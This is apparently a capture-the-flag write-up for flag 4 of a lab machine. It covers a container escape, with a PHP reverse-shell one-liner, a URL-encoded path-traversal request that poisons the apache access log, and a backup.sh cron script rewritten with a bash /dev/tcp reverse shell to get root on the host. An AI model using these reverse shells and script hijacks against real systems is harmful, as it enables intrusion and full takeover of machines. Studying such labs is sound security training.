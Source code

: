 [< Back](../../README.md)


Let's use the same strategy used for Flag2, but let's try some different files as the recursive `find` didn't find flag4.

I already have some idea of how to find the flag, we are in a docker machine, indicated by the `.dockerimage` file at the root of the repo. But just to be sure I checked out the hint given in the CTF for flag 4: "This is totally not a docker".

So somehow somewhere we need to access the host machine, after searching a long long time, I finally found something interesting.

I though about any backup system that they might have available, as this is a apache app, it's common practice to leave some kind of backup system in place.

```sh
sudo env /bin/bash -c '
  find / -name "*backup*" -type f;
  echo "Done!" >> /home/output.txt
'
```

**/!\ Until this point** we had trouble setting up a revshell, so we were doing the URL attack, but after reloading the `.ovpn` config file, we were able to set up a revshell on to the host:

```sh
php -r '$sock=fsockopen("10.8.38.215",9001);shell_exec("/bin/bash <&3 >&3 2>&3");'
```

We URL encode the payload, and add the rest of the URL
```
http://[IP]/
  ?end=
  &view=
    teks/../../../../../var/log/apache2/access.log
  &cmd=
    php%20-r%20%27%24sock%3Dfsockopen%28%2210.8.38.215%22%2C9001%29%3Bshell_exec%28%22%2Fbin%2Fbash%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```

Running it gives us the shell onto the machine.

This gave us two files!
```
/opt/backups/backup.tar
/opt/backups/backup.sh
```

After checking what's inside `backup.sh`, we find what we were searching for:
```sh
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
/bin/bash -i >& /dev/tcp/10.14.36.7/4445 0>&1
```

Looking at the creation date of the `backup.tar` it keeps getting updated.

This means that `backup.sh` is getting executed, like a cron job, though, crontab is not installed, so it's probably from the host machine, we have a way of bridging onto the host.

Let's rewrite `backup.sh` to get a second reverse shell.

```sh
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
/bin/bash -i >& /dev/tcp/[MY_IP]/444 0>&1
```

And we get a revshell onto the host as root!
<p><img src="src/flag4/revshell_root.jpg" width="750"></p>

